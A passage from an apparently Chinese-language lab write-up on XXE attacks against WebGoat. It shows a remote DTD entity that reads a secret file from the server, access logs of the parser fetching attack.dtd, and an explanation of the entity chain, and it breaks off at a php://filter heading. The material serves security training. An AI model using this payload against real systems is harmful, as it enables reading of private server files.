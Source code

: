 其中远程 DTD 文件内容是。

```xml
<!ENTITY file SYSTEM "file:///home/webgoat/.webgoat-8.1.0/XXE/secret.txt">
```

Burp 发送请求后，服务器收到 Web 应用发送的请求。

```plaintext
111.200.55.98 - - [20/Jul/2020:12:33:11 +0800] "GET /attack.dtd HTTP/1.1" 301 162 "-" "Java/11.0.1" "-"
111.200.55.98 - - [20/Jul/2020:12:33:11 +0800] "GET /attack.dtd HTTP/1.1" 200 199 "-" "Java/11.0.1" "-"
```

顺利得到结果。引用顺序是 DTD 文件 -> DTD 文件内实体，在本例中是 XML 解析器发送 GET 请求得到 attack.dtd 接着调用 dtd 文件内外部实体让解析器去去文件内容。

![secret 文件内容.png](assets/1708583913-93d650c6b07c0e93d6732f7f63e80305.png)

### php://filter 读取文件
